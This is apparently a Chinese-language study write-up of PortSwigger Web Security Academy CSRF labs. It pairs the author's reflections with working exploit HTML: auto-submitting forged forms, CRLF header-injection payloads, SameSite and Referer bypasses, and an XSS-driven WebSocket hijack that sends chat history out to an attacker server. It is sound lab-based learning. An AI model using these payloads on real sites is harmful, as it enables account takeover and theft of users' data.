


## Lab: CSRF vulnerability with no defenses

| Dimension | Description                                                              |
| --------- | ------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/csrf#how-to-construct-a-csrf-attack |
| Lab       | https://portswigger.net/web-security/csrf/lab-no-defenses                |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0a2200e3041a749c806303be00a900e8.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Lab: CSRF where token validation depends on request method

| Dimension | Description                                                                                                                |
| --------- | -------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#common-flaws-in-csrf-token-validation                 |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-methodwp-json |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0a3e009e03ce668f803203d3007e007f.web-security-academy.net/my-account/change-email"
      method="GET"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

還不錯，學到一個新的攻擊手法，GET Method 也許能夠 bypass CSRF

## Lab: CSRF where token validation depends on token being present

| Dimension | Description                                                                                                                  |
| --------- | ---------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#validation-of-csrf-token-depends-on-token-being-present |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present     |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0ae500260381b8168020214a00a80023.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

這題跟 [Lab: CSRF vulnerability with no defenses](#lab-csrf-vulnerability-with-no-defenses) 的答案一樣，但隱藏在後端的檢核邏輯不一樣，也算是學到一個新的攻擊手法，直接把 CSRF Token 的 Key Value 都拿掉，看看能不能 Bypass 後端的檢核邏輯

## Lab: CSRF where token is not tied to user session

| Dimension | Description                                                                                                     |
| --------- | --------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#csrf-token-is-not-tied-to-the-user-session |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session         |

基礎題，在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <form
      action="https://0ab2007a0355f1d980882b2700e200a9.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener3@normal-user.net"
        required
      />
      <input
        type="hidden"
        name="csrf"
        value="iCYrbvKBVvwhZvsHarL2UVEMB27LU4jB"
        required
      />
      <button type="submit">Submit</button>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

這題的解答也不難，重點是有學到新的攻擊手法～ CSRF Token 如果沒有跟 User session 綁定的話，就有機會用自己的 CSRF Token 讓受害者執行敏感操作

## Lab: CSRF where token is tied to non-session cookie

| Dimension | Description                                                                                                     |
| --------- | --------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#csrf-token-is-tied-to-a-non-session-cookie |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie       |

先用 `wiener:peter` 這組帳密登入，查看 cookie

```
csrfKey=UivKtl6nOjC4aMWMdpKt1kIcGYbkZQfw; session=aYpMkG4oDaWS8v6Ry7K8NXPDRcK9vb4L
```

```html
<input
  required=""
  type="hidden"
  name="csrf"
  value="WV5T4JU0EfURbrjXawtbLJO2VpBOeyDF"
/>
```

再用 `carlos:montoya` 這組帳密登入，查看 cookie

```
csrfKey=UivKtl6nOjC4aMWMdpKt1kIcGYbkZQfw; session=KKlxV6XatR05TZmuux3eTpa7qfYIGU5N
```

```html
<input
  required=""
  type="hidden"
  name="csrf"
  value="WV5T4JU0EfURbrjXawtbLJO2VpBOeyDF"
/>
```

兩個不同帳號的使用者， csrf 跟 csrfKey 都一樣，好奇怪，不確定是不是 Lab 環境有問題？

我在想，Lab 環境是想要讓我們透過 `Set-Cookie` 注入 `csrfKey`，觀察首頁的搜尋功能，會把搜尋的關鍵字注入到 response header

```
set-cookie: LastSearchTerm=123; Secure; HttpOnly
```

可惜在解這個 Lab 的當下，我還沒把 [Cookie](../http/cookie.md) 這篇文章寫完，所以我需要查詢一下 [Set-Cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Set-Cookie) 的語法，才能決定要怎麼注入

得知每個 `Set-Cookie` 的 Response Header 只能設定一組 key value，難道這題需要用到 [CRLF Injection](../http/anatomy-of-an-http-message.md#crlf-injection) 的概念嗎？那我只能說，這題是真的難，我怎麼覺得可以到 EXPERT 等級了啊，沒有扎實的 HTTP 基礎，根本不會知道 CRLF Injection 這個東西呀？總之我們嘗試看看

```js
encodeURIComponent(`123\r\nSet-Cookie: csrfKey=123`);
```

之後構造出 `?search=123%0D%0ASet-Cookie%3A%20csrfKey%3D123`，結果真的有成功注入新的 `Set-Cookie`

```
Set-Cookie: LastSearchTerm=123
Set-Cookie: csrfKey=123; Secure; HttpOnly
```

再調整一下

```js
encodeURIComponent(
  `123\r\nSet-Cookie: csrfKey=123; Secure; HttpOnly; SameSite=None`,
);
```

之後在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    
    <form
      action="https://0a6600b103cd1e658004032d001a001b.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener6@normal-user.net"
        required
      />
      <input
        type="hidden"
        name="csrf"
        value="kGn16kOexowOAt80CT30Stnkdkek3ySN"
        required
      />
      <button type="submit">Submit</button>
    </form>
  </body>
</html>
```

這題我覺得有幾個難點

1. 要找到首頁的搜尋功能跟 `Set-Cookie` 的關聯性（雖然題目的 Hint 已經有透露）
2. 要知道 CRLF Injection 的概念，並且能實際運用（真的很慶幸我有先學過 CRLF Injection，不然我根本想不到有這個方法）
3. 利用 `` 發起請求，並且在 `onerror` 才執行 `document.forms[0].submit()`

## Lab: CSRF where token is duplicated in cookie

| Dimension | Description                                                                                                      |
| --------- | ---------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-token-validation#csrf-token-is-simply-duplicated-in-a-cookie |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie              |

這題跟上面一樣，有 CRLF Injection 的漏洞，先嘗試以下 querystring

```js
encodeURIComponent(
  `123\r\nSet-Cookie: csrf=helloworld; Secure; HttpOnly; SameSite=None`,
);
```

在 exploit-server 的 response body 設定以下 html

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    
    <form
      action="https://0ace006c04b8a318804294bc00ef0054.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <label for="email">Email:</label>
      <input
        type="email"
        id="email"
        name="email"
        value="wiener6@normal-user.net"
        required
      />
      <input type="hidden" name="csrf" value="helloworld" required />
      <button type="submit">Submit</button>
    </form>
  </body>
</html>
```

## Lab: SameSite Lax bypass via method override

| Dimension | Description                                                                                                                      |
| --------- | -------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-lax-restrictions-using-get-requests |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override            |

我覺得這題的答案有點出乎我的意料之外，不過文章內確實是有講到啦...

In practice, servers aren't always fussy about whether they receive a `GET` or `POST` request to a given endpoint, even those that are expecting a form submission.

```html
<script>
  document.location =
    "https://0aeb002e03553e06816ec662004b0072.web-security-academy.net/my-account/change-email?email=wiener10@normal-user.net&_method=POST";
</script>
```

原本的表單長這樣

```html
<form
  class="login-form"
  name="change-email-form"
  action="/my-account/change-email"
  method="POST"
>
  <label>Email</label>
  <input required="" type="email" name="email" value="" />
  <button class="button" type="submit">Update email</button>
</form>
```

如果說後端可以同時接受 GET 跟 POST 我還可以理解，我確實有看過一些比較古早的 PHP 網站，可以用 POST Method 去請求網頁，但這題答案的 payload 是直接把 request body 攤平到 querystring，實務上真的會有後端的檢核這麼寬鬆嗎？我是從來沒遇過...但這題的概念是想要表達，`SameSite: Lax` 的情況，用 GET Method + Top-Level Navigation 還是會傳送 Cookie

## Lab: SameSite Strict bypass via client-side redirect

| Dimension | Description                                                                                                                     |
| --------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-restrictions-using-on-site-gadgets |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect   |

這題我找了很久，找不到 Open Redirect 的漏洞，我以為會是 `?redirect=xxx` 這種類型的，結果翻了首頁,評論頁,登入頁,個人帳戶頁，都沒在 `<script>` 看到任何東西，後來直接參考答案（畢竟我解 Lab 是要學習新手法，不是在那邊花時間找漏洞），Open Redirect 的注入點是在評論完成頁的 Path Traversal `/post/comment/confirmation?postId=1/../../my-account`

於是我查看評論完成頁 `/post/comment/confirmation` 的 js，還真的有弱點

```js
redirectOnConfirmation = (blogPath) => {
  setTimeout(() => {
    const url = new URL(window.location);
    const postId = url.searchParams.get("postId");
    window.location = blogPath + "/" + postId;
  }, 3000);
};
```

然而我發現評論頁也有同樣的 Path Traversal 漏洞

```
/post/3/../../my-account/change-email?email=evil@example.com&submit=1
```

在 exploit-server 的 response header 設定以下，成功解題

```
HTTP/1.1 301 Moved Permanently
Location: https://0a6900bb035b4a6180342bb5000a0042.web-security-academy.net/post/3/../../my-account/change-email?email=evil@example.com&submit=1
```

這邊就不能用 [Lab: SameSite Lax bypass via method override](#lab-samesite-lax-bypass-via-method-override) 的 Top Level Navigation，因為上面的 URL 並不是 client-side redirect，實際上只會有一個 `/my-account/change-email?email=evil@example.com&submit=1` 的 HTTP Request，因此我們使用 [HTTP Redirections](../http/http-redirections.md)，使用 Chrome 139 實測後，`Lax` + `Strict` + `None` 的 cookie 都會帶上

但這題的設計初衷其實不是這樣，我只是剛好找到另一個 solution，這題的 bypass 方式很巧妙的利用的 Open Redirect 的漏洞，以前我不懂為啥 Open Redirect 為啥也算是一種資安漏洞，而且在 [Dcard Hackers](https://www.dcard.tw/hacker) 跟 [Hitcon](https://zeroday.hitcon.org/vulnerability/disclosed) 都可以看到，現在多學了一個攻擊手法，才知道原來 Open Redirect 可以這樣用，增加攻擊面

我的解法



題目想要的解法



## Lab: SameSite Strict bypass via sibling domain

<!-- last_update:
  date: "2025-11-09T08:00:00+08:00" -->

| Dimension | Description                                                                                                                              |
| --------- | ---------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-restrictions-via-vulnerable-sibling-domains |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain                  |

- 可以跟 [Lab: Cross-site WebSocket hijacking](./websocket.md#lab-cross-site-websocket-hijacking) 做呼應
- 這題的 Cookie: session 是 SameSite: strict

可以觀察到首頁載入的 `/resources/css/labsEcommerce.css`，Response Header 有設定 `access-control-allow-origin: https://cms-0abc006304661b8b80a60dd700440082.web-security-academy.net`，並且訪問 cms 後，Response Header 沒有設定 X-Frame-Options，基本上注入點就在這裡

承上，訪問 cms 後，會被導到 `/login` 頁面，簡易嘗試後，發現有 Reflected XSS，username 欄位可以注入任意 HTML，因此我們在 exploit-server 構造

```html
<form
  method="POST"
  action="https://cms-0abc006304661b8b80a60dd700440082.web-security-academy.net/login"
>
  <label>Username</label>
  <input required type="username" name="username" id="username" />
  <label>Password</label>
  <input required type="password" name="password" value="123" />
  <button type="submit">Log in</button>
</form>
<script>
  document.getElementById("username").value = `<script>
const ws = new WebSocket('https://0abc006304661b8b80a60dd700440082.web-security-academy.net/chat');
ws.addEventListener('open', () => {
    ws.send("READY");
});
ws.addEventListener('message', (e) => {
    const data = encodeURIComponent(e.data);
    fetch('https://exploit-0a5900b004701ba580cd0c5b01580006.exploit-server.net/?message=' + data, { mode: 'no-cors' });
});
<\/script>`;
  document.forms[0].submit();
</script>
```

流程是：

- victim 訪問 attacker 精心構造的 `/exploit`
- 頁面載入後，立即轉到 cms login 頁面
- 在 cms login 頁面執行 Reflected XSS
- 開 WebSocket 連線到 sibling domain
- 發送 "READY" 指令，可以取得所有 chat history

## Lab: SameSite Lax bypass via cookie refresh

| Dimension | Description                                                                                                                             |
| --------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions#bypassing-samesite-lax-restrictions-with-newly-issued-cookies |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh                 |

登入的第一步驟，會到 `/social-login`，並且 html 裡面有

```html
<meta
  http-equiv="refresh"
  content="3;url=https://oauth-0ac500cf049af0fc80ac011d022a005f.oauth-server.net/auth?client_id=j5q2luyudapotawqptouf&redirect_uri=https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email"
/>
```

登入完，就會看到 cookie.session 刷新，有 2 分鐘的生效期，我們可以利用這個生效期去修改 email

在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head></head>
  <body>
    <form
      action="https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="wiener4@normal-user.net"
      />
    </form>
    <script>
      window.onclick = () => {
        window.open(
          "https://0af0008f04a0f04f808c039600b70043.web-security-academy.net/social-login",
        );
        setTimeout(() => document.forms[0].submit());
      };
    </script>
  </body>
</html>
```

這題的 solution 算很基礎，但 bypass 技巧很巧妙，利用網站 "登入後會刷新 cookie.session" 的邏輯，加上瀏覽器 `SameSite: Lax` 的 cookie 會在 2 分鐘後才生效的規範

但如果網站有 "跟 session 綁定在一起的 CSRF Token" 放在 `<input hidden/>`，就可以防禦住這個攻擊手法

## Lab: CSRF where Referer validation depends on header being present

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-depends-on-header-being-present  |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present |

新的工具包：`<meta name="referrer" content="never">`，之前有寫過 [Origin And Referer](../http/origin-and-referer.md) 的文章，但沒看過這用法！

在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head>
    <meta name="referrer" content="never" />
  </head>
  <body>
    <form
      class="login-form"
      name="change-email-form"
      action="https://0a8b00a40328b0f184f5145b007000c9.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="wiener3@normal-user.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

這題的 solution 算基礎，秒解，但有學到新的工具包～

## Lab: CSRF with broken Referer validation

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-can-be-circumvented |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken             |

在 exploit-server 的 response body 設定以下

File

```
/exploit?bypass=https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/my-account
```

Head

```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
```

Body

```html
<html>
  <body>
    <form
      class="login-form"
      name="change-email-form"
      action="https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="pwned@evil-user.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

點選 "View exploit" 有成功修改 Email，但 "Deliver exploit to victim" 卻沒有判定為 solved，超奇怪...

後來直接看答案，攻擊手法是 `history.pushState("", "", "/?https://0ad00038036a2f0c806794e300af0040.web-security-academy.net/")`

兩種解法應該都可以（？我不知道為什麼我的 PoC 沒有過，是 PortSwigger 的判定機制有問題嗎？求大神解答

<!-- todo-yusheng -->

## 小結

CSRF 的世界，比我想像的還要複雜，以前在尋找 CSRF 的漏洞時，看到網站有用 CSRF Token，我就會直接放棄。但現在知道即便有 CSRF Token，還是有可能會有風險。同時也學到很多跟 cookie 相關的知識，整體來說是收穫滿滿呀！

## 參考資料

- https://portswigger.net/web-security/csrf
